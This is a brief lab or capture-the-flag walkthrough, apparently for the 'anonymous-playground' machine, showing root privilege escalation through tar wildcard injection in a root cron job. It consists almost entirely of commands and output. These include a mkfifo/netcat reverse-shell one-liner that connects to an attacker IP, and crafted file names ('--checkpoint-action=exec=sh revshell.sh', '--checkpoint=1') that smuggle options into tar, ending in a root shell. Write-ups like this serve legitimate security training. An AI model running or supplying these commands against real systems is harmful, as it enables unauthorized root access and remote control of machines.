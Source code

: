 > **Privilege Escalation with Wildcard Manipulation**
> 

```bash
spooky@anonymous-playground:~$ cat /etc/crontab
cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
*/1 *   * * *   root    cd /home/spooky && tar -zcf /var/backups/spooky.tgz *
#
spooky@anonymous-playground:~$ 

```

`nc -nlvp 21232`

```bash
listening on [any] 21232 ...
```

```bash
spooky@anonymous-playground:~$ cd /home/spooky
spooky@anonymous-playground:/home/spooky$ echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.2.37.37 21232 >/tmp/f" > revshell.sh
spooky@anonymous-playground:/home/spooky$ ls
flag.txt  revshell.sh
spooky@anonymous-playground:/home/spooky$ echo "" > "--checkpoint-action=exec=sh revshell.sh"
spooky@anonymous-playground:/home/spooky$ echo "" > --checkpoint=1

```

```bash
listening on [any] 21232 ...
connect to [10.2.37.37] from (UNKNOWN) [10.10.2.185] 34446
/bin/sh: 0: can't access tty; job control turned off
# whoami
root
# id
uid=0(root) gid=0(root) groups=0(root)
# pwd
/home/spooky
# 
```
